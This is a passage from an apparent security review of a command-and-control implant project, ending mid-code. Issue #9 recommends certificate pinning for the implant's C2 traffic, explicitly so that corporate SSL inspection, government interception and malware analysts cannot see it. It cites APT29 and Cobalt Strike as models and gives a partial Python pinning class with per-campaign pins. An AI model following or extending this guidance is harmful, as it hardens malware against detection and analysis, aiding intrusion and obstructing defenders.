 **Impact:** ✅ **Actually wipes memory** (unlike current implementation)

---

### ISSUE #9: Missing Certificate Pinning = MITM Vulnerable

**Location:** `Core/crypto_system.py` and `web_app_real.py`  
**Severity:** 🟠 HIGH  
**Risk:** C2 communication can be intercepted

**Current State:**
- ❌ No certificate validation
- ❌ No public key pinning
- ❌ Trusts any HTTPS certificate
- ❌ **Vulnerable to MITM** (corporate proxies, malware analysts)

**Research Reference:**
- **OWASP Mobile Top 10 M3** - Insecure Communication
- **"Certificate Pinning" - OWASP**
- **APT29 "Hammertoss"** - Used domain fronting + pinning
- **Cobalt Strike** - Requires certificate validation

**Solution Needed:**
```python
class CertificatePinner:
    """
    Certificate pinning for C2 communication
    
    Research:
    - OWASP Certificate and Public Key Pinning
    - RFC 7469 - Public Key Pinning Extension for HTTP
    - Used by: Signal, WhatsApp, Banking apps
    
    Prevents:
    - Corporate SSL inspection
    - Government MITM
    - Malware analyst interception
    """
    
    def __init__(self):
        # Embedded C2 certificate public key hash
        # Generated at build time, unique per campaign
        self.pinned_cert_hash = "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA="
        self.backup_pins = [
            "sha256/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB=",
            "sha256/CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC="
        ]
    
    def verify_certificate(self, cert_der: bytes) -> bool:
        """
        Verify certificate matches pinned hash
        
        Returns False if MITM detected
        """
        # Calculate certificate hash
        cert_hash = hashlib.sha256(cert_der).digest()
        cert_hash_b64 = f"sha256/{base64.b64encode(cert_hash).decode()}"
        
        # Check against pins
        if cert_hash_b64 in [self.pinned_cert_hash] + self.backup_pins:
            return True
        
        # MITM detected - DO NOT communicate
        return False
    
    def create_pinned_context(self) -> ssl.SSLContext:
```